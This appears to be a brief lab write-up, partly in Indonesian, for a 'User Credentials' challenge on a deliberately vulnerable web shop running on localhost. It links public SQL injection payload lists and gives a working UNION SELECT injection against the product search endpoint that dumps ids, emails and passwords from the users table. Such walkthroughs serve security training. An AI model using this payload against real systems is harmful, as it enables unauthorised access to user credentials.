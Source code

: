 # User Credentials

Retrieve a list of all user credentials via SQL Injection.

## Reference

- https://github.com/payloadbox/sql-injection-payload-list
- https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection

## Steps

Karena diminta untuk mendapatkan list user maka yang tergambar adalah variabel seperti id, email, password. Kita bisa memanfaat payload yang sebelumnya pernah digunakan di DB Schema. Hanya perlu ditambahkan beberapa payload untuk menyesuaikan.

`http://localhost:3000/rest/products/search?q=K')) UNION SELECT id,email,password,4,5,6,7,8,9 FROM users--`

<img src="./img/usercredentials.png">

<img src="./img/usercredentialdone.png">
